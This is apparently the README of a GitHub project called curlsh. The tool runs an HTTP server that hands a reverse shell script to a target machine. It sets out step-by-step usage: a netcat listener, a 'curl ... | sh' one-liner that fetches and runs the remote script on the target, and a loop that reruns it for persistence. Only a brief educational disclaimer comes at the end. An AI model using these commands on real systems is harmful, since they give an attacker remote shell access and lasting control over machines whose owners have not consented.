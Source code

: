 # Simple curl reverse shell

This project implements a simple HTTP server that serves a reverse shell script to a target machine. The reverse shell script attempts to connect back to a specified IP address and port using various methods, including Python, Perl, Netcat, and `/bin/sh`.

## Features

- Supports multiple reverse shell methods:
  - Python (both Python 2 and Python 3)
  - Perl
  - Netcat
  - /bin/sh
- Graceful shutdown on `Ctrl+C`.
- Easily customizable IP and port configuration.

## Requirements

- A Unix-like operating system (Linux, macOS).
- `bash`, `nc` (Netcat), `python` or `python3`, and `perl` should be installed on the system running the script.

## Usage

1. Clone this repository:
   ```bash
   git clone https://github.com/laztname/curlsh.git
   cd curlsh
   ```

2. Make the script executable:
   ```
   chmod +x curlsh
   ```

3. Run the script with the target IP, target port, and listening port:
   ```
   ./curlsh <target_ip> <target_port> <listening_port>
   ```
- <target_ip>: The IP address of the target machine you want the reverse shell to connect to.
- <target_port>: The port on the target machine to connect to.
- <listening_port>: The port on your machine to listen for incoming requests.

## Example

On the listener (192.168.1.100) run the script
```bash
./curlsh 192.168.1.101 1337 8080
```

On your machine (192.168.1.101) listen the port
```bash
nc -lvp 1337
```

On target machine (192.168.1.102) call the reverse shell
```bash
curl -s 192.168.1.100:8080|sh
```
or run this for persistence on the target machine
```bash
while true; do curl -s 192.168.1.100:8080 | sh; done
```


## Disclaimer

This tool is intended for educational purposes only. Ensure you have permission to test the security of any system before using this script. Unauthorized use may violate laws and regulations.
